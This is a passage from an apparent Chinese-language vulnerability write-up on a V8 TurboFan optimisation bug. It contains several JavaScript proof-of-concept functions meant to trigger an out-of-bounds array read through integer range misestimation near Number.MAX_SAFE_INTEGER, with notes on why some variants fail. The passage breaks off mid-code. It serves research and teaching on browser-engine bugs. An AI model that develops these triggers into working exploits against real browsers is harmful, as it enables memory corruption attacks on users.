 <ul>
<li>POC1：**无 if 分支**
<pre><code class="lang-js hljs javascript">function f(x)
`{`
    const arr = [1.1, 2.2, 3.3, 4.4, 5.5];
    // 这里没有使用上面if xxx这样的语句，直接一个整数赋值

    // let t = Number.MAX_SAFE_INTEGER + 1; 
    let t = 9007199254740992; 
    t = t + 1 + 1;
    t -= 9007199254740989;
    return arr[t];
`}`

console.log(f(1));
%OptimizeFunctionOnNextCall(f);
console.log(f(1));
</code></pre>
**问题点**：由于函数中常数与常数相加减，因此在执行`TypedLoweringPhase`中的`ConstantFoldingReducer`时，三个算数表达式会直接优化为一个常数，这样就没办法执行`DuplicateAdditionReducer`。
[![](https://p5.ssl.qhimg.com/t015892c7f5030b1fc4.png)](https://p5.ssl.qhimg.com/t015892c7f5030b1fc4.png)
**解决方法**：使用一个`if`分支，这样就可以通过`phi`结点来间接设置`Range`。
</li>
> 以下是一些玄学问题。
<li>POC2：**使用`Number.MAX_SAFE_INTEGER`**
<pre><code class="lang-js hljs javascript">function f(x)
`{`
  const arr = [1.1, 2.2, 3.3, 4.4, 5.5];
    let t = (x == 1 ? Number.MAX_SAFE_INTEGER + 1 
        : Number.MAX_SAFE_INTEGER - 2);
    t = t + 1 + 1;
    t -= (Number.MAX_SAFE_INTEGER - 2);
    return arr[t];
`}`

console.log(f(1));
%OptimizeFunctionOnNextCall(f);
console.log(f(1));
</code></pre>
**问题点**：在`GraphBuilderPhase`中，type feedback推测目标函数的参数只会为`1`，因此turboFan推测函数中的条件判断式**“恒”成立**，故在`InliningPhase`中优化`merge`结点，使得变量`t`始终为一个常数。
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t011c9be76623c3eb9b.png)
之后就执行`TypedLoweringPhase`中的`ConstantFoldingReducer`再次将其优化为一个常数，以至于无法执行`DuplicateAdditionReducer`优化。
通过turbolizer我们可以看出，若判断条件为真，则将优化好的结果输出；若判断条件为假，则说明type feedback出现错误，需要执行deopt。
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0180bbd5bad494b8f7.png)
<blockquote>
至于为什么先前的poc不会优化merge结点，而当前这个poc会优化merge结点，
这个问题仍然需要进一步探索。
</blockquote>
**解决方法**：
<ol>
<li>不同时在 if 语句的两个分支处使用`Number.MAX_SAFE_INTEGER`
<pre><code class="lang-js hljs javascript"> function f(x)
 `{`
     const arr = [1.1, 2.2, 3.3, 4.4, 5.5];
     let t = (x == 1 ? Number.MAX_SAFE_INTEGER + 1 
         // 修改了此处
         : 9007199254740989);
     t = t + 1 + 1;
     t -= (Number.MAX_SAFE_INTEGER - 2);